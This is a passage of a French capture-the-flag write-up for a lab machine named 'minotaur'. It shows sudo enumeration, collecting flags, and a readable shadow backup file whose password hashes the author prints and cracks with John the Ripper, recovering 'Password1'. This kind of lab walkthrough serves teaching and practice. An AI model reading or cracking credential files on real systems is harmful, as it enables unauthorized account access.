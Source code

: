 ```
www-data@minotaur:/var/www/html/bull$ sudo -l
Matching Defaults entries for www-data on minotaur:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on minotaur:
    (root) NOPASSWD: /root/bullquote.sh
```

Finalement je trouve un premier flag dans la racine web :

```bash
www-data@minotaur:/var/www/html$ cat flag.txt 
Oh, lookey here. A flag!
Th15 15 @N 3@5y f1@G!
```

et un second dans `/tmp` :

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root www-data 121 May 27  2015 /tmp/flag.txt
-rw-r----- 1 root www-data 1148 May 27  2015 /tmp/shadow.bak
```

Il y a aussi une copie lisible du fichier `shadow`. Je copie les hashs intéressants et je les file à JTR :

```
root:$6$15/OlfJP$h70tk3qikcf.kfwlGpYT7zfFg.cRzlJMlbVDSj3zCg4967ZXG0JzN/6oInrnvGf7AZaJFE2qJdBAOc/3AyeGX.:16569:0:99999:7:::
minotaur:$6$3qaiXwrS$1Ctbj1UPpzKjWSgpIaUH0PovtO2Ar/IshWUe4tIUrJf8VlbIIijxdu4xHsXltA0mFavbo701X9.BG/fVIPD35.:16582:0:99999:7:::
heffer:$6$iH6pqgzM$3nJ00ToM38a.qLqcW8Yv0pdRiO/fXOvNv03rBzv./E0TO4B8y.QF/PNZ2JrghQTZomdVl3Zffb/MkWrFovWUi/:16582:0:99999:7:::
h0rnbag:$6$nlapGOqY$Hp5VHWq388mVQemkiJA2U1qLI.rZAFzxCw7ivfyglRNgZ6mx68sE1futUy..m7dYJRQRUWEpm3XKihXPB9Akd1:16582:0:99999:7:::
```

```bash
www-data@minotaur:/tmp$ cat flag.txt 
That shadow.bak file is probably useful, hey?
Also, you found a flag!
My m1L|<$|-|@|<3 br1|\|G$ @11 t3h b0y$ 2 t3h y@R|)
```

JTR trouve le mot de passe `Password1` pour le compte `heffer` qui permet d'accèder à un autre flag... mais c'est tout.

```bash
heffer@minotaur:~$ cat flag.txt 
So this was an easy flag to get, hopefully. Have you gotten ~minotaur/flag.txt yet?
Th3 fl@G 15: m00000 y0
heffer@minotaur:~$ sudo -l
Matching Defaults entries for heffer on minotaur:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User heffer may run the following commands on minotaur:
    (root) NOPASSWD: /root/bullquote.sh
heffer@minotaur:~$ sudo /root/bullquote.sh
[sudo] password for heffer: 
sudo: /root/bullquote.sh: command not found
```
